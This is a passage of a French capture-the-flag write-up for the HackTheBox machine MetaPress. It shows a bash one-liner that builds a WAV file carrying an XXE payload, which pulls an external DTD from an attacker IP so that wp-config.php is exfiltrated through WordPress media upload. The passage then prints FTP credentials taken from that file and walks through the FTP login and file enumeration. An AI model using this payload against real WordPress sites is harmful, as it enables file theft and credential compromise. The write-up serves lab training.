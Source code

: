 **Fichier payload.wav :**

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><\!DOCTYPE ANY[<\!ENTITY % remote SYSTEM "http://10.10.14.50:8080/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

### Démarrage du serveur HTTP

```bash
python3 -m http.server 8080
```

### Upload du fichier malveillant

1. Connexion à WordPress avec le compte `manager`
2. Upload de `payload.wav` dans la Media Library
3. Le serveur effectue une requête HTTP contenant le contenu base64 du fichier

**Décodage du résultat :**

```bash
echo "BASE64_CONTENT" | base64 -d
```

**Credentials FTP extraits de wp-config.php :**

```php
define('FTP_USER', 'metapress.htb');
define('FTP_PASS', '9NYS_ii@FyL_p5M2NvJ');
define('FTP_HOST', 'ftp.metapress.htb');
```

<div class="bg-blue-100 dark:bg-blue-900/20 border-l-4 border-blue-500 p-4 my-4 rounded-r-lg">
    <p class="text-blue-800 dark:text-blue-200">
        <i class="fas fa-database mr-2 text-blue-500"></i>
        <strong>Credentials FTP obtenus \!</strong> Accès au serveur FTP possible.
    </p>
</div>



## 📂 Phase 5 — Accès FTP et découverte SSH

### Connexion FTP

```bash
ftp 10.10.11.186
# Login: metapress.htb
# Password: 9NYS_ii@FyL_p5M2NvJ
```

### Énumération des fichiers

```bash
ftp> ls -la
ftp> cd mailer
ftp> get send_email.php
```
